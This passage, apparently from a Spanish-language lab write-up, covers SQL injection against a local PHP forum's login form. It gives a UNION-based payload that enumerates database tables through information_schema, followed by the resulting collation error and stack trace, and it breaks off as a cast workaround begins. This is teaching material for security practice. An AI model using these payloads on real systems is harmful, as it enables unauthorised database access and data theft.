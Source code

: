 ![](capturas/sql-injection-lab2-3.png)

Número de columnas de la tabla que se usa en el formulario de login: 9 columnas.


## Primer intento de ataque
Ahora que sabemos el número de columnas que usa la tabla del formulario del login, vamos a hacer una consulta para que nos de las tablas de la BD. Seguimos trabajando con el formulario de login:

Inyección →
```
999' UNION select null, information_Schema.tables.table_schema, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```

Ahora vemos que hay un problema ya que la tabla que se usa en el login usa el collation utf16_bin y que la tabla a la que estamos intentando unir usa el collation utf8_general_cli.
```
Notice: Use of undefined constant forum - assumed 'forum' in C:\xampp\htdocs\foro\libraries\User.php on line 9

Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1267 Illegal mix of collations (utf16_bin,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION' in C:\xampp\htdocs\foro\libraries\Database.php:56 Stack trace: #0 C:\xampp\htdocs\foro\libraries\Database.php(56): PDOStatement->execute() #1 C:\xampp\htdocs\foro\libraries\Database.php(65): Database->execute() #2 C:\xampp\htdocs\foro\libraries\User.php(69): Database->single() #3 C:\xampp\htdocs\foro\login.php(11): User->login('999' UNION sele...', '5a105e8b9d40e13...') #4 {main} thrown in C:\xampp\htdocs\foro\libraries\Database.php on line 56
```
![](capturas/sql-injection-lab2-4.png)


## Solución a la mezcla de collation
En el punto anterior hemos obtenido que la inyección da un error de mezcla de collation. Para solventar esto, hacemos un cast (conversión) con el collation de la columna que solicitamos → Le hacemos un cast a utf8_general_ci de la columna information_Schema.tables.table_schema:
